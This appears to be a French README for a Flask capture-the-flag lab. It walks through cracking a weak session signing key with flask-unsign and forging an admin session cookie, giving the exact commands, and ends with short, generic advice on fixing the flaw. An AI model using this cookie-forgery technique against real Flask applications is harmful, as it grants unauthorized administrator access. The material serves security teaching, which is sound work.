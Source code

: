 # Flask Session

## Prérequis

### Environnement Python

- **Python 3.x** : [Télécharger Python](https://www.python.org/downloads/)
- **Flask** : Framework web léger pour Python

### Installation des Dépendances

1. **Créer un environnement virtuel** (optionnel mais recommandé) :

    ```bash
    python3 -m venv venv
    source venv/bin/activate  # Sur Windows : venv\Scripts\activate
    ```

2. **Installer Flask** :

    ```bash
    pip install Flask
    ```

## Démarrage du Projet

1. **Clonez ce dépôt** sur votre machine :

    ```bash
    git clone https://github.com/votre-utilisateur/repo-nom.git
    cd repo-nom
    ```

2. **Lancez le serveur Flask** :

    ```bash
    python main.py
    ```

3. **Accédez à l'application** via votre navigateur à l'adresse suivante : `http://127.0.0.1:5000/`.

## Structure du Projet

### Routes Disponibles

- **Route `/`** : Page d'accueil qui affiche un message en fonction du rôle de l'utilisateur.

### But du challenge

Ce connecter sur / en tant qu'admin par defaut vous serez avec le username test.

### Exploitation de la Faille et Correction

Voici comment vous pouvez exploiter cette faille :

1. **Connectez-vous** à `/`.

2. Récupéré le token de session
    - Ouvrez les outils de développement de votre navigateur (`F12` sur Chrome/Firefox).
    - Allez dans l'onglet **Application** (ou **Storage**).
    - Sous la section **Cookies**, trouvez le cookie `session`.

3. installer **flask-unsign** :

    ```bash
    pip install flask-unsign flask-unsign[wordlist]
    ```

4. trouver **la clé** qui sert à chiffrer les tokens de session:

    ```bash
    flask-unsign --unsign --cookie 'eyJ1c2VybmFtZSI6InRlc3QifQ.Zrtyug.azCH0EatqpPnsr7648NZJLhhzok'
    ```

5. une fois la clé obtenu: **supersecretkey**, créer un nouveau token admin

    ```bash
    flask-unsign --sign --cookie "{'username': 'admin'}" --secret 'supersecretkey'
    ```

6. utilisé le nouveau token dans votre session flask
    - Ouvrez les outils de développement de votre navigateur (`F12` sur Chrome/Firefox).
    - Allez dans l'onglet **Application** (ou **Storage**).
    - Sous la section **Cookies**, trouvez le cookie `session`.
    - Changez la valeur avec le nouveau cookie.

## Corriger la Faille

### Solution 1 : Validation des Données d'Entrée

Il est important de ne jamais faire confiance aux données provenant des requêtes utilisateur. Vous devez valider et nettoyer toute donnée avant de l'utiliser pour modifier l'état de la session.

### Solution 2 : Utilisation de Jetons de Session Sécurisés

Une approche sécurisée consiste à utiliser des jetons de session qui ne peuvent pas être modifiés par l'utilisateur et qui sont gérés de manière sécurisée côté serveur.